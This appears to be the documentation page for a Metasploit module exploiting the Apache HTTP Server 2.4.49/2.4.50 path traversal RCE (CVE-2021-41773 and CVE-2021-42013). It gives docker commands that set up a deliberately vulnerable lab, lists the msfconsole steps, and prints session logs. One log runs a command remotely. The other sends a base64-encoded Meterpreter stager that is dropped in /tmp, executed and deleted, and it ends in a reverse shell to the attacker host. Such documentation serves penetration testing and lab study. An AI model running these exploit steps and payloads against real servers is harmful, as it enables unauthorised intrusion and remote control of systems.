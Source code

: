 This module exploit an unauthenticated RCE vulnerability which exists in Apache version 2.4.49 (CVE-2021-41773)
and 2.4.50 (CVE-2021-42013).

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a
path traversal attack to map URLs to files outside the expected document root.

If files outside of the document root are not protected by "require all denied" these requests can succeed.

Additionally this flaw could leak the source of interpreted files like CGI scripts.

If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient (CVE-2021-42013).

## Vulnerable Application

This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and Apache 2.4.50 and
not earlier versions.

### Make your lab

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

--or--

```
docker run -dit --name CVE-2021-42013 -p 8080:80 -v /opt/apache2.4.50:/usr/local/apache2/htdocs httpd:2.4.50
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-42013
docker start CVE-2021-42013
```

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/apache_normalize_path_rce`
3. `set RHOSTS [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CVE**

The vulnerability to use (Accepted: CVE-2021-41773, CVE-2021-42013). Default: CVE-2021-42013

**DEPTH**

Depth for path traversal. Default: 5

**TARGETURI**

Base path. Default: `/cgi-bin`

## Scenarios

### Command Line Interface

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > set target 1
target => 1
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set cmd uname -a
cmd => uname -a
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[+] uname -a
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Generated payload: uname -a
[!] http://172.20.4.11:8080 - Dumping command output in response
Linux 184ef33f9859 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf6 exploit(multi/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.11:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/PJaT; chmod +x /tmp/PJaT; /tmp/PJaT; rm -f /tmp/PJaT
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.11
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.4.11:48540) at 2021-10-08 13:58:13 +0400
[!] This exploit may require manual cleanup of '/tmp/PJaT' on the target

meterpreter >
```

## References

  1. <https://httpd.apache.org/security/vulnerabilities_24.html>
  2. <https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse>
  3. <https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/apache/apache-httpd-rce.yaml>
  4. <https://github.com/projectdiscovery/nuclei-templates/commit/9384dd235ec5107f423d930ac80055f2ce2bff74>
  5. <https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis>
